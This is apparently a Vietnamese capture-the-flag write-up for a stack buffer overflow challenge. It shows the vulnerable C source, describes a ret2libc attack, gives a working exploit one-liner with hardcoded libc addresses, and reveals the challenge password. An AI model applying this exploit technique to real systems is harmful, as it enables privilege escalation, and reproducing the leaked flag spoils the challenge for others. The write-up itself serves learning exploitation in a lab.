 # ELF x86 - Stack buffer overflow basic 6

```c
#include <stdio.h>
#include <string.h>
#include <sys/types.h>
#include <unistd.h>
 
int main (int argc, char ** argv){
    char message[20];
 
    if (argc != 2){
        printf ("Usage: %s <message>\n", argv[0]);
        return -1;
    }
 
    setreuid(geteuid(), geteuid());
    strcpy (message, argv[1]);
    printf ("Your message: %s\n", message);
    return 0;
}
```

Bài này có lỗi buffer overflow ở hàm `strcpy`. Ta tiến hành ghi đè địa chỉ trả về và tấn công ret2libc.

Tìm địa chỉ của `system` và `/bin/sh`

![](images/2.png)

Tìm vị trí của message, nằm ở `ebp – 0x1c`

![](images/3.png)

Exploit:

```bash
./ch33 $(python -c "print 'A' * 32 + '\x10\x83\xe6\xb7' + 'A' * 4 + '\x4c\xad\xf8\xb7'")
```

![](images/4.png)

Password là `R3t2l1bcISnicet0o!`


